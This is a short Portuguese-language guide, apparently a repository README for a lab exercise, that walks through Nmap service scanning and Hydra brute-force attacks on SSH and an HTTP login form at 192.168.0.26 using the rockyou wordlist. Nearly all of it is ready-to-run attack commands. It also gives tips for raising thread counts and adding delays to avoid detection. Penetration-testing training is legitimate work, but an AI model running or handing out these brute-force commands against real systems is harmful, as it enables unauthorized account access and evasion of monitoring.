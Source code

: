 ## Reconhecimento do Alvo
- Objetivo: Identificar serviços e portas abertas no alvo.

- Use o Nmap para escanear o alvo:

```bash
nmap -sV 192.168.0.26

# Identifique os serviços (ex: SSH na porta 22, FTP na porta 21, HTTP na porta 80).
# Anote os protocolos e portas que serão atacados.
```
#

## Ataque Básico ao SSH
- Objetivo: Realizar um ataque de força bruta no serviço SSH.

- Use o Hydra para atacar o SSH:

```bash
hydra -l mark -P /usr/share/wordlists/rockyou.txt -t 10 ssh://192.168.0.26

# Analise os resultados para encontrar combinações válidas de usuário/senha.
```
#

## Ataque a Formulários Web (HTTP/HTTPS)
- Objetivo: Testar combinações de usuário/senha em um formulário de login.

- Identifique o método do formulário (GET ou POST) e os campos de usuário/senha.

- Use o Hydra para atacar o formulário:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.26 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
# Verifique se o Hydra encontrou credenciais válidas.
```
#

## Otimização de Ataques
- Objetivo: Ajustar parâmetros para melhorar a eficiência do ataque.

- Aumente o número de threads (-t) para acelerar o ataque:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 20 ssh://192.168.0.26
# Adicione um tempo de espera (-w) para evitar detecção:
```
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -w 5 ssh://192.168.0.26
# Use a opção -e ns para testar senhas em branco ou iguais ao nome de usuário:
```
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e ns ssh://192.168.0.26
```
#
